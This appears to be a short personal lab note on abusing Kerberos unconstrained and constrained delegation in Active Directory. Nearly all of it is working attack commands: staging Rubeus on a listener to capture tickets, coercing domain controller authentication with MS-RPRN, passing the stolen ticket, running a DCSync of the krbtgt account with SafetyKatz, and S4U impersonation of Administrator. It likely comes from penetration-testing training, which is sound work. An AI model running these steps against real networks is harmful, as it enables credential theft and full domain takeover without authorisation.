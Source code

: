 ### **Unconstrained**
Use rubeus on the server to run on listener mode
```powershell
echo F | xcopy C:\AD\Tools\Rubeus.exe \\<LISTENER MACHINE>\C$\Users\Public\Rubeus.exe /Y
```
log in the server
```powershell
winrs -r:<LISTENER MACHINE> cmd
```
Launch rubeus
```powershell
C:\Users\Public\Rubeus.exe monitor /targetuser:<TARGET MACHINE>$ /interval:5 /nowrap
```
![[Pasted image 20231025163953.png]]
Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)
```powershell
C:\AD\Tools\MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```
Rubeus is triggered
![[Pasted image 20231025164204.png]]
Copy the ticket and use it with rubeus on the local machine
```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:<TICKET>
```
![[Pasted image 20231025164640.png]]
And launch safetykatz to dcsync
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:<MACHINE>\krbtgt" "exit"
```

### **Constrained**
With the account with the permission's hash launch rubeus to ask a tgt as administrator
```powerview
C:\AD\Tools\Rubeus.exe s4u /user:<USER> /aes256:<AES256 HASH> /impersonateuser:Administrator /msdsspn:"<FOUND SERVICE>" /ptt
```
Try access the mssql server
```cmd
dir \\<MACHINE>\c$
```
![[Pasted image 20231106114056.png]]
